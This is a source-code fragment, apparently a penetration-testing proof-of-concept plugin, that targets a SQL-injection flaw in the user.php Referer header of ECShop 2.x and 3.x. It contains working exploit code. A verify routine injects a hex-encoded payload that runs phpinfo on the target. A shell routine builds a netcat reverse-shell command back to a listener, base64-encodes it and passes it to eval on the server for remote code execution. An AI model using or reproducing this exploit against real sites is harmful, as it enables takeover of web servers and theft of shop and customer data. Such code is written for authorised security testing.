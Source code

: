 ```
        ]

        for echash in echashs:
            payload = ('{0}ads|a:2:{{s:3:"num";s:116:"*/ select 1,0x2720756E696F6E202F2A,3,4,5,'
                       '6,7,8,0x7b24616263275d3b6563686f20706870696e666f2f2a2a2f28293b2f2f7d,10'
                       '-- -";s:2:"id";s:10:"\' union /*";}}{0}').format(echash)
            headers = {"Referer": payload}
            try:
                resp = requests.get(url, headers=headers)
                if resp and resp.status_code == 200 and "<title>phpinfo()</title>" in resp.text:
                    result['VerifyInfo'] = {}
                    result['VerifyInfo']['URL'] = url
                    result['VerifyInfo']['Referer'] = payload
                    break
            except Exception as ex:
                pass

        return self.parse_output(result)

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output

    def _attack(self):
        return self._verify()

    def _shell(self):
        path = "user.php"
        url = urljoin(self.url, path)
        echashs = [
            '554fcae493e564ee0dc75bdf2ebf94ca',  # ECShop 2.x hash
            '45ea207d7a2b68c49582d2d22adf953a'  # ECShop 3.x hash
        ]

        cmd = REVERSE_PAYLOAD.NC.format(get_listener_ip(), get_listener_port())
        phpcode = 'passthru("{0}");'.format(cmd)
        encoded_code = base64.b64encode(phpcode.encode())
        postdata = {
            'action': 'login',
            'vulnspy': 'eval/**/(base64_decode({0}));exit;'.format(encoded_code.decode()),
            'rnd': random_str(10)
        }

        for echash in echashs:
            payload = '{0}ads|a:3:{{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}}{1}'.format(echash, echash)
            headers = {"Referer": payload}
            try:
                resp = requests.post(url, data=postdata, headers=headers)
                if resp and resp.status_code == 200 and "<title>phpinfo()</title>" in resp.text:
                    break
            except ReadTimeout:
                break
            except Exception as ex:
                pass


```